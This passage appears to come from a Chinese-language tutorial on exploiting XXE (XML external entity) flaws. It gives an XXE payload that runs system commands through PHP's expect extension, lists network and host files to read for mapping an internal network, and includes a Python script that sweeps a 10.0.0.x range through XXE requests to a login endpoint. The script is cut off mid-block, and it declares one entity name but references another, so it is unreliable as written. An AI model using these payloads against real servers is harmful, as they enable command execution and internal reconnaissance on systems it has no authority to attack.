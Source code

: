 ### 1.4、命令执行

目标环境的特殊配置导致XML与某些命令操作关联，从而造成命令执行的可能性。如果目标内部的PHP环境中安装了expect扩展，并且该扩展被加载到了处理XML的内部应用程序上，就可以利用expect来执行系统命令。

Expect扩展是一个用于自动化交互的套件，它可以在执行命令和程序时，模拟用户输入指定的字符串，以实现交互通信。如果能够成功利用这个扩展，就可以通过构造恶意的XML数据，触发命令执行，进而执行任意系统命令。

```
&lt;?xml version="1.0" encoding="utf-8"?&gt;

&lt;!ENTITY xxe SYSTEM "expect://id" &gt;]&gt;
&lt;root&gt;
&lt;name&gt;&amp;xxe;&lt;/name&gt;
&lt;/root&gt;

```

### 1.5、内网主机探测

当我们成功利用了XXE漏洞，下一步就是尝试读取服务器的网络配置文件，以获取内网的相关信息。/etc/network/interfaces、/proc/net/arp和/etc/hosts都是可能包含有用信息的文件。

```
/etc/network/interfaces：这个文件通常包含服务器的网络接口配置信息，您可以从中找到内网的IP地址和网段。

/proc/net/arp：这个文件保存了地址解析协议（ARP）的缓存表，您可以从中获取到与内网中其他主机进行通信的主机的MAC地址和IP地址。

/etc/hosts：这个文件是Linux系统上的主机文件，用于IP地址和域名的快速解析。您可以查看文件中是否有内网主机的映射关系。

```

<br/>**下面是一个探测脚本的实例：**

```
import requests
import base64

#Origtional XML that the server accepts
#&lt;xml&gt;
#    &lt;stuff&gt;user&lt;/stuff&gt;
#&lt;/xml&gt;

def build_xml(string):
    xml = """&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;"""
    xml = xml + "\r\n" + """"""
    xml = xml + "\r\n" + """&lt;!ENTITY xxe SYSTEM """ + '"' + string + '"' + """&gt;]&gt;"""
    xml = xml + "\r\n" + """&lt;user&gt;"""
    xml = xml + "\r\n" + """ &lt;username&gt;&amp;test;&lt;/username&gt;"""
    xml = xml + "\r\n" + """&lt;/user&gt;"""
    send_xml(xml)

def send_xml(xml):
    headers = {'Content-Type': 'application/xml'}
    x = requests.post('http://192.168.11.59/doLogin.php', data=xml, headers=headers, timeout=5).text
    coded_string = x.split(' ')[-2] # a little split to get only the base64 encoded value
    print coded_string
#   print base64.b64decode(coded_string)
for i in range(1, 255):
    try:
        i = str(i)
        ip = '10.0.0.' + i
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
        print string
        build_xml(string)
    except:
```
